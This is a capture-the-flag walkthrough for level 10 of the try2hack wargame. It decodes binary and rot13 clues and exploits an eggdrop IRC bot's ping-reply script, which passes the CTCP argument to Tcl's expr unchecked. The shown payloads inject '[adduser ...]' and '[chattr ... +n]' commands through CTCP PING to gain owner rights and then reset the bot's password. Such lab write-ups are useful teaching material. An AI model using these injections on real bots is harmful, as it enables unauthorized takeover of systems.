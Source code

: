 #### Level 10

After you have done level 9 you get an IRC channel name and password. After joining you receive a binary welcome message.
```
0100111001101001011000110110010100100000011010100
110111101100010001011100010000001001110011011110111011100100000011101000111100101110000011001010010000
000100111001011110110110101110011011001110010000001010100010100100101100100110010010010000100000101000
011010010110010000001110011011010000110111101110111011000100111010101100111001001110010000001110100011
011110010000001110011011001010110010100100000011101000110100001100101001000000110001001
```

Just go to my favorite binary encoding/decoding site http://www.nickciske.com/tools/binary.php and decode it. 

The result:
```Nice job. Now type '/msg TRY2HACK showbug' to see the bug```

As you can see, you get a command that you must write to the bot to show you the bug. This is what the bot writes back:
```
ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}
```

It looked like a script, but the characters were all messed up, so thought this was rot13, which replaces all chars with the char 13 places to the right in the alphabet.
So the only thing I needed was to rot13 it again (26 chars in the alphabet. 13+13):
```php
<?php

print str_rot13('ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}');

?>
```

Which results in:
```
bind ctcr - PING ctcr:pingreply
proc ctcr:pingreply {nick uhost hand dest key arg} {
    set dur [expr [unixtime] - $arg]
    putserv "NOTICE $nick :Your ping reply took $dur seconds"}
```
After almost 24 hours, x number cups of coffee, trying and failing, hours googling and reading on eggdrop I finally made it!
The argument sent with the ping are in most irc clients a timestamp, but you can send what you want.
The bot lacks of security, it doesn't check $arg for bad code. Time to exploit.

I tried sending raw data with the /quote command but that didn't work.
I then come across the /nctcp command in Irssi (/ctcpreply for mIRC) which I noticed sent some stuff along with the data that seemed to make a diffrence. I think it was some UTF \x00\x01 thing.

Worked:
```
/nctcp LEVEL10-xxx PING [adduser yournick *!yourident@*]
/nctcp LEVEL10-xxx PING [chattr yournick +n]
```

I changed the password for the bot to '123456' by doing `/msg LEVEL10-xxx pass 123456`

```
[notice(LEVEL10-605)] PING [adduser asdf *!qwer@*]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
[notice(LEVEL10-605)] PING [chattr asdf +n]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
<asdf> pass 123456
-LEVEL10-605(try2hack@try2hack.bot) - Password changed to '123456'
```

Then start a dcc chat with the bot `/dcc chat LEVEL10-xxx`, then the bot will msg you with the URL to level 11, along with this:

```
<LEVEL10-605> Enter your password.
<asdf> 123456
<LEVEL10-605>
<LEVEL10-605> Connected to LEVEL10-0, running eggdrop v1.6.19
<LEVEL10-605>
<LEVEL10-605> Local time is now 19:43
<LEVEL10-605>
<LEVEL10-605> NOT! Welcome in LEVEL10-0, asdf!
<LEVEL10-605> ****************************************************
<LEVEL10-605> *             AUTO LOG OUT!                        *
<LEVEL10-605> ****************************************************
<LEVEL10-605>
<LEVEL10-605> -=- poof -=-
<LEVEL10-605> You've been booted from the bot by LEVEL10-0
-!- Irssi: Closing query with =LEVEL10-605
```

If the DCC chat doesn't work, then open ports 3713 to 3723, go around your router or figure out something else.
